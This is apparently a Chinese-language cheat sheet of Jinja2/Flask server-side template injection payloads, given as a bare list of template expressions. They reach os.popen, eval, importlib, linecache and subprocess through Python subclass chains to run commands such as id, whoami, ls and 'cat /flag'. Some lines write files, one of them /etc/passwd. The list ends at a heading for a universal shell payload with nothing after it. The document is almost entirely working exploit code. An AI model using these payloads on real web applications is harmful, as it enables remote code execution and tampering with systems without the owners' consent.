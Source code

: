 ```
{{''.__class__.__base__.__subclasses__()[185].__init__.__globals__['__builtins__']['__import__']('os').popen('cat /flag').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.__import__('os').popen('id').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['os'].popen('whoami').read()}}
#python3专属
{{"".__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__import__('os').popen('whoami').read()}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['os'].popen('ls /').read()}}


#调用eval函数读取
#python2
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}} 
{{"".__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')}}
{{"".__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')}}
{{"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval,'os.system("ls")')}}
#python3
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('id').read()")}} 
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']}}
{{"".__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")}}
{{"".__class__.__bases__[0].__subclasses__()[250].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")}}
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}


#调用 importlib类
{{''.__class__.__base__.__subclasses__()[128]["load_module"]("os")["popen"]("ls /").read()}}


#调用linecache函数
{{''.__class__.__base__.__subclasses__()[128].__init__.__globals__['linecache']['os'].popen('ls /').read()}}
{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache']['os'].popen('ls').read()}}
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}


#调用communicate()函数
{{''.__class__.__base__.__subclasses__()[128]('whoami',shell=True,stdout=-1).communicate()[0].strip()}}


#写文件
写文件的话就直接把上面的构造里的read()换成write()即可，下面举例利用file类将数据写入文件。
{{"".__class__.__bases__[0].__bases__[0].__subclasses__()[40]('/tmp').write('test')}}  ----python2的str类型不直接从属于基类，所以payload中含有两个 .__bases__
{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').write('123456')}}


#通用 getshell
```